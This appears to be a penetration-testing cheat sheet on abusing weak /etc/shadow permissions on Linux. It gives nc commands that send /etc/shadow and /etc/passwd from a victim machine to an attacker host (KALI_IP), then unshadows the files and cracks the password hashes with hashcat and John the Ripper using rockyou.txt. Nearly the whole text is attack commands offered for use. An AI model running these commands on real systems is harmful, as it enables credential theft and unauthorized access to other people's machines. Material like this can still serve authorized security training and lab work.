 #### Check `Shadow` File Permission
```
ls -al /etc/shadow
```
If the file has `w` permission under ***group (Users who belong to the file's group)*** i.e. `-rw-rw-r--`. We can copy the content of the file:

#### Check `passwd` file permission
```
ls -al /etc/passwd
```

#### Save the output on the Attacker's Machine with `nc`
Copying and saving the `shadow` and the `passwd` file on the attacker's machine with `nc` tool.

**Attacker's Machine**
```
nc -nvlp 4444 > shadow
```

**Victim's Machine**
```
nc KALI_IP 4444 < /etc/shadow
```

**Attacker's Machine**
```
nc -nvlp 4444 > passwd
```

**Victim's Machine**
```
nc KALI_IP 4444 < /etc/passwd
```

#### `unshadow` Files
When `unshadowing` files, the **passwd** file should be at the beginning.

**Attacker's Machine**
```
unshadow passwd shadow > unshadow.txt
```

#### Brute Force the Hash
**Attackers Machine**

**Hashcat**
```
hashcat -m 1800 unshadow.txt rockyou.txt -O
```
- `-O`: **Optimized kernel** mode, it tells Hashcat to use more efficient and faster kernel for cracking passwords, but with certain limitations.

**John The Ripper**
```
john --wordlist=rockyou.txt unshadow.txt
```

**View Cracker Passwords**
```
john --show unshadow.txt
```
